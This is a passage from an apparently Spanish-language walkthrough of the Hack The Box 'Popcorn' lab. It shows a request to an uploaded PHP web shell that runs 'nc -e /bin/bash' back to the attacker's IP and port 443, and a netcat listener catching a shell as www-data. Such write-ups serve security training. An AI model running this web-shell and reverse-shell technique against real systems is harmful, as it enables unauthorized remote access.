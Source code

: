 ![](/assets/images/htb-popcorn/popcorn-web9.png)

![](/assets/images/htb-popcorn/popcorn-web10.png)

Ahora como siempre, nos ponemos en escucha por el puerto 443 y procedemos a entablarnos una reverse shell.

```bash
http://10.10.10.6/torrent/upload/8808ea0b7cf49a6fb69bcdb20aeac84a4fd9974f.php?cmd=nc 
 -e /bin/bash 10.10.14.27 443 &
```

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.6] 34180
whoami
www-data
```

